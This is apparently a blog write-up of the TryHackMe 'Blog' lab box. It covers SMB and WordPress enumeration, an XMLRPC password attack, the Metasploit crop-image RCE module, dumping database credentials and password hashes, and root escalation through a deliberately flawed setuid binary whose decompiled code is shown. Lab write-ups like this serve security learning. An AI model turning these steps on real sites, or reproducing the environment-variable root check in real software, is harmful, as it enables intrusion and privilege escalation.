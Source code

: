 ```yaml
---
layout: post
title:  "THM - Billy Joel blog."
date:   2020-07-16 18:00:00 +1000
category: hacking
---
```


## Introduction
*Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!*

*Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole....*  

This is another medium rated box. 

## Ports
nmap says we've got 22 (SSH), 80 (HTTP) plus 139 and 445 (SMB).

## SMB
We can enumerate the shares with smbclient and then login to the *BillySMB* share, from where we can retrieve a PNG image of a QR code, an MP4 and a JPEG of the White Rabbit from Alice in Wonderland. The QR code leads to a Billy Joel YouTube video and the JPEG can be popped open with steghide to reveal a message advising it is a rabbit hole. The video is a Taylor Swift song interwoven with a goat bleating. 

Let's put aside the contents of the SMB share for now.

## Website
Firstly we add blog.thm to /etc/hosts. This may not be necessary but I usually do it anyway.

The website makes it pretty obvious it's running WordPress, so we'll run wpscan:

``
root@kali:/opt/tryhackme/blog# wpscan --url http://blog.thm -e -v
``

From this we get two usernames (bjoel and kwheel), and learn that XMLRPC is open. There is an authenticated RCE vulnerability in this version of Wordpress, but we'll need some credentials so an XMLRPC password attack seems a reasonable course of action.

Wpscan can do the XMLRPC attack, but I used Burp Turbo Intruder. Doing we, so obtain the password *cutiepie1* for user *kwheel*.

## Metasploit
There is a metasploit module we can use to run the exploit, which is 

``
msf5 exploit(multi/http/wp_crop_rce) > 
``

Once I'm in I just drop into shell and spawn bash:

``
python3 -c 'import pty;pty.spawn("/bin/bash");'
``

We can find the database credentials in wp-config.php:
>/ MySQL database username /  
define('DB_USER', 'wordpressuser');  
/ MySQL database password /  
define('DB_PASSWORD', 'LittleYellowLamp90!@');  

And then we can log into the database:

``
www-data@blog:/dev/shm$ mysql --host=127.0.0.1 --port 3306 -u wordpressuser -p
``
>Enter password: LittleYellowLamp90!@  
Welcome to the MySQL monitor.  Commands end with ; or \g.  
Your MySQL connection id is 38102  
Server version: 5.7.30-0ubuntu0.18.04.1 (Ubuntu)  

## Database

Once we are in, we can get the hashed passwords:
>mqsql> show databases;  
mysql> use blog;  
mysql> show tables;  
mysql> select * from wp_users;  
select * from wp_users;  

For bjoel:

``
$P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/
`` 

and for kwheel:

``
$P$BedNwvQ29vr1TPd80CDl6WnHyjr8te.
``

Hashcat happily cracks *cutiepie1* for kwheel, but won't do the *bjoel* hash with rockyou and best64 rules, so presumably we need to look elsewhere.

## Elsewhere

With some enumeration (via linenum.sh or otherwise) we can find a slightly unusual binary: /usr/sbin/checker

Running this binary we get the message 'Not an admin'. Curious. We can download the file and trivially dissamble it with Ghidra, which reveals the following:

{% highlight c %}
int main(void) {
  char *isAdmin;
  isAdmin = getenv("admin");
  if (isAdmin == (char *)0x0) {
    puts("Not an Admin");
  } else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
}
{% endhighlight %}

Essentially if the environment variable 'admin' exists and is not zero, we will get a root shell. 

## So let's do that then

It's fairly simple:

{% highlight shell %}
www-data@blog:/$ admin=1 // to set the value  
www-data@blog:/$ echo $admin // to check it worked okay  
www-data@blog:/$ export admin // to set it as an environment variable  
www-data@blog:/$ printenv // to make sure *that* worked  
{% endhighlight %}

And that's it. Now run 

``
www-data@blog:/$ /usr/sbin/checker
``

And we get:

``
root@blog:/#
``

And we can retrieve the flags.
